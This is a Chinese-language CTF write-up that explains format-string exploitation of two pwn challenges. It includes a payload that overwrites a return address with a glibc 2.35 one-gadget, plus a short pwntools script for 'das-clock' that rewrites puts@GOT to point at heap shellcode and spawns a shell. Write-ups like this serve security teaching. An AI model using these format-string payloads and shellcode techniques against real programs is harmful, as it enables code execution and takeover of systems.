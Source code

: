 上面说了，只有在返回地址末两位为0x08时才更容易成功，那么我们就将指针p的地址末两位改为0x08来拼概率。

第一步时，我们不能使用`%6$n`来取到指针p的值，因为在格式化利用中，不能两次使用`%x$n`的方式来指定修改指针的值，原因我不清楚。主要是看源码能力太差了。

所以我们选择`%c%c%c%c%4c%hhn`的形式来取到第六个参数，也就是指针p。
![first_step](./first_step.png)
成功的情况就是图中这样，在指针p的后两位为0xf8时可以成功。

第二步，将返回地址改为ongadget，在2.35情况下我找到偏移为`0xebcf5`的gadget可以用。
接下来我们要计算一下固定偏移了。

`__libc_start_call_main`偏移为`0x29d90`，在考虑上第一步的八个字节。
我们还需要补充`0xebcf5-0x29d90-8` = 794461个字节。
所以第二步payload为`%794461c%6$n`。

总的payload也就是`%c%c%c%c%4c%hhn%794461c%6$n`

## 小插曲
> 但是很可惜，这个题的调试，在高版本情况下，不仅不能在关闭aslr的情况下调试
> 而且在高版本下，预期成功概率还得在除以二(其实1/32的概率还是问题不大)

在作者的低版本环境下，`%*d`将取到的值考虑为一个`unsignedint`，这对我们是一件好事。

而高版本的glibc新增特性，取到的值被考虑为`int`，如果是负数，就将数字左对其输出，比如`printf("%*d",-5,10);`会输出`10   `

但是在高版本情况下，如果取到的libc地址类似于`0x7xxx nxxx xxxx`而其中`n`大于等于8，那么自然`nxxx xxxx`就是一个负数，在下图中可以看出，`width`会被取负。

由于取负值之后的地址不会和其他libc地址形成固定偏移了。而在这种情况下，我们利用libc地址的思路便失败了。
![high_version](./high_version.png)
除了成功概率会小一半之外，调试也带来一定麻烦。

# das-clock
[题目附件](./pwn)
## 初步分析
这道题看似功能还挺多的，但是实际上只需要`display_current_time`这个功能就能获取`shell`。
![display_current_time](./display_current_time.png)
![format_and_printf](./format_and_printf.png)
在图中我们看到，我们可以控制`vsnprintf`的format参数，这是非常危险的。
不过和上一题一样，`vsnprintf`的输出会被写入一个`s[256]`的数组，我们得不到其中内容，无法泄露libc地址。所以依然得利用和上一题类似的套路。
## 编写exp
![arg_list](./arg_list.png)
![vsnprintf](./vsnprintf.png)
在调试中首先看看我们输入的三段分别在哪个位置。
`format`做了`vsnprintf`的格式化字符串的参数。
`name`则是在堆上(题目的初始化功能给了堆读写执行的权限，所以这里考虑shellcode的可能)
`pwd`则是直接出现在栈上。
由于接下来会执行puts函数，并且`puts`函数的`got`可写，并且elf没有打开aslr，got地址固定为0x404000，所以我们将`putsgot`传入`pwd`，并且想办法将其改成堆地址以执行我们的shellcode
此时payload已经呼之欲出了，直接`%*c`来取到堆地址的值，`%6$lln`取到putsgot将其改为堆地址。

最终exp
```python
puts_got = 0x404000

io.sendlineafter(b'code',b'dbgbgtf')
io.sendlineafter(b'choice: ',b'3')
io.sendlineafter(b'format',b'%*c%6$lln')
io.sendlineafter(b'name',asm(shellcraft.amd64.linux.sh()))
io.sendlineafter(b'pwd',p64(puts_got))
```
好吧，就这样吧，主要是累了，不写哩！！！！

